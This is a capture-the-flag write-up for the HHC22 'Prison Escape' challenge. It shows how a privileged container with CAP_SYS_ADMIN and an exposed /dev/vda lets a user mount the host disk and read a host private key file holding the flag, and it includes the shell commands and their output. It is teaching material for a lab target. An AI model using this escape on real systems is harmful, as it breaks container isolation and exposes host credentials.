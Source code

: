 ```yaml
---
sidebar_position: 2
---
```

# Prison Escape

### Background

This task asks us to escape a running container and find a file on the host operating system.

### Challenge
:::info Question
Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file /home/jailer/.ssh/jail.key.priv?
:::

Once we're inside our container prison, we start out by checking what we're allowed to do as root:

```bash
grinchum-land:/mnt$ sudo -l
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
```

Great! We have carte blanche to sudo whatever we'd like as root. Next, we'll check our list of Unix capabilities. Normally in a container these should be as restrictive as possible, but let's hope someone was lazy here:

```bash
grinchum-land:/mnt$ grep Cap /proc/1/status
CapInh: 0000000000000000
CapPrm: 0000003fffffffff
CapEff: 0000003fffffffff
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000
```

To decode this gibberish, we can use the ```capsh``` utility (on another host that has it)

![Capsh decoded output, showing that we have cap_sys_admin](./assets/img/er2-1.png)

Among the items in this list, the most useful to us by far is ```cap_sys_admin```. The [capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html) has more info, but this capability allows us to perform a very, very wide array of actions which would be useful for system administration. It just so happens that many of those are also capabilities that would help us break out of our current jail.

---

Going through a [helpful list of container escape strategies](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation), we don't have to look long before we notice that a disk device is, for some reason, listed under ```/dev/```:

```bash
grinchum-land:/mnt$ ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jan  7 00:59 autofs
crw------- 1 root root  10, 234 Jan  7 00:59 btrfs-control
lrwxrwxrwx 1 root root       11 Jan  7 00:59 core -> /proc/kcore
...
crw-rw---- 1 root tty    7,  70 Jan  7 00:59 vcsu6
# highlight-start
brw-rw---- 1 root disk 254,   0 Jan  7 00:59 vda
# highlight-end
crw------- 1 root root  10,  63 Jan  7 00:59 vsock
crw-rw-rw- 1 root root   1,   5 Jan  7 00:59 zero
```

Normally the disk device ```/dev/vda``` wouldn't be mounted inside of the container. However, we all know that developers will complain to senior management if they have to do an ounce of additional work, so here we are. Since we verified earlier that we have the ```CAP_SYS_ADMIN``` capability (which helpfully lets us mount and unmount things), we can now easily mount this device and find the flag:

```
grinchum-land:~$ sudo mount /dev/vda /mnt/
grinchum-land:~$ ls -l /mnt/
.dockerenv  etc/        lib64/      mnt/        run/        tmp/        
bin/        home/       libx32/     opt/        sbin/       usr/        
boot/       lib/        lost+found/ proc/       srv/        var/        
dev/        lib32/      media/      root/       sys/        
grinchum-land:~$ ls -la /mnt/home/jailer/
total 12
drwxr-xr-x 3 root root 4096 Dec  1 19:12 .
drwxr-xr-x 3 root root 4096 Dec  1 19:12 ..
drwxr-xr-x 2 root root 4096 Dec  1 19:12 .ssh
grinchum-land:~$ ls -la /mnt/home/jailer/.
./    ../   .ssh/ 
grinchum-land:~$ ls -la /mnt/home/jailer/.ssh/
total 12
drwxr-xr-x 2 root root 4096 Dec  1 19:12 .
drwxr-xr-x 3 root root 4096 Dec  1 19:12 ..
-rw-rw-rw- 1 root root 1555 Nov  3 23:36 jail.key.priv
-rw-rw-rw- 1 root root    0 Nov  7 18:54 jail.key.pub
grinchum-land:~$ cat /mnt/home/jailer/.ssh/jail.key.priv 

                Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
grinchum-land:~$ 
```
